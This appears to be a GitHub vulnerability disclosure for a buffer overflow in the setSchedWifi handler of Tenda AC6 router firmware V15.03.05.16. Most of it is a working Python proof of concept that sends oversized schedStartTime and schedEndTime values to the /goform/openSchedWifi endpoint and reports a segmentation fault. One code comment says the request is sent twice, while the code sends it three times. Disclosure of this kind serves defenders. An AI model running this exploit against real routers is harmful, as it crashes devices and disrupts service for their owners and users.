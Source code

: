 ## Tenda AC6 V15.03.05.16 firmware has a buffer overflow vulnerability in the setSchedWifi function

A serious buffer overflow vulnerability exists in the `setSchedWifi` function of the Tenda AC6 router firmware version V15.03.05.16.  
An attacker can exploit two instances of the `strcpy` function in the code to perform a Denial of Service (DoS) attack, or potentially cause a crash in the target service.

![](./picture/1.png)
![](./picture/2.png)

### poc
```python
import requests


def generate_overflow_data():
	# Target buffer size is 0x400 bytes
	padding = b"X" * 0x400
	exploit_data = padding
	return exploit_data

def execute_overflow(url, data):
	# Prepare malicious request parameters
	attack_params = {'schedStartTime':data,'schedWifiEnable':0,'schedEndTime':data}
	# Send the malicious request twice (as in original)
	server_response = requests.get(url, params=attack_params)
	server_response = requests.get(url, params=attack_params)
	server_response = requests.get(url, params=attack_params)

	# Display server response
	print("HTTP Status:", server_response.status_code)
	print("Response Content:", server_response.text)

if __name__ == "__main__":
	# Target endpoint
	target_url = "http://192.168.52.138/goform/openSchedWifi"
	# Generate overflow payload
	malicious_payload = generate_overflow_data()
	# Execute the attack
	execute_overflow(target_url, malicious_payload)
```

Achieved Result: Segmentation Fault
![](./picture/3.png)